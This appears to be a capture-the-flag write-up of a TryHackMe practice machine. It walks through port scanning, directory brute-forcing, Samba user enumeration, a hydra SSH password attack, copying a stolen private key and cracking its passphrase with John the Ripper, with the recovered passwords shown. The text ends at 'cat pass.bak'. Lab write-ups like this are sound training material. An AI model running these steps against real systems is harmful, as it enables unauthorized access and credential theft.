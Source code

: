 # Basic Pentesting Machine from Try Hack Me

## Nmap
`nmap -sVC <targetipaddress>`

Ports:
22
80
And a couple of samba ports that are open. (139, 445)

## HTTP
First I take a look at the http port and head over to the webpage.

Did not get much from the inspect tool.
Checked for /robots.txt and /admin. 

## gobuster
`gobuster -u http://<targetipaddress> -w /usr/share/SecLists/Discovery/Web-Content/common.txt`

Results:
/.htpasswd            (Status: 403) [Size: 297]
/.htaccess            (Status: 403) [Size: 297]
/.hta                 (Status: 403) [Size: 292]
/development          (Status: 301) [Size: 320] [--> http://10.10.235.114/development/]
/index.html           (Status: 200) [Size: 158]
/server-status        (Status: 403) [Size: 301]

From here I checked out the /development directory 
checked both **dev.txt** and **j.txt**; j.txt we can see J talking to K and we notice that Kk has a weak password that we can use to find and take advantage of. 

Users:
J adn K are the two users we know exist in the machine thus far. Can use samaba to confirm this and get the usernames.

## [samba](https://github.com/mksiki/notes/blob/main/samba.md)
`/usr/share/enum4linux/enum4linux.pl -a 10.10.235.114 `

Results:
S-1-22-1-1000 Unix User\kay (Local User)
S-1-22-1-1001 Unix User\jan (Local User)

## hydra 
`hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.235.114`

Results:
[22][ssh] host: 10.10.235.114   login: jan   password: armando

## SSH

While in SSH most of the stuff I did not have permssion to read and nothing of use. 
I did find another directory in /home, **kay**. 
Had a pass.bk files that I did not have permission to **cat**. Other files were the same.

To escalte this procces I will use linpeas.

### LinPEAS (Linux Privilege Escalation Awesome Script)
First I coped the linpeas.sh to **jan** machine. 
`scp ./linpeas.sh jan@<targetipaddress>:/dev/shm`

From Jan's computer:
`cd /dev/shm`
`./linpeas.sh`

Results:
══╣ Possible private SSH keys were found!
/home/kay/.ssh/id_rsa

under **kay** /.ssh directory they have an SSH key that we can use to login using that user. 

`cd /home/kay/.ssh/`
`cat id_rsa`

Copy and paste that into my macine using vim and saving it(`chmod 600 kay_id_rsa`). 

### SSH kay's machine

Prompted to enter passphrase for **kay's** key. 

To figure out this passphrase I used JohnTheRipper. 

John the Ripper can crack an SSH key passphrase by first converting the private key into a 
format John understands using ssh2john and then running a brute-force or wordlist attack.

Save the hash key to a format John undesrtands:
`/usr/share/john/ssh2john.py kay_id_rsa > key.txt`

Run `john --wordlist=/usr/share/wordlists/rockyou.txt key.txt` 

Results:
beeswax          (kay_id_rsa)

`ssh -i kay_id_rsa kay@<targetipaddress>`

Entered passphrase:
`ls`
`cat pass.bak`


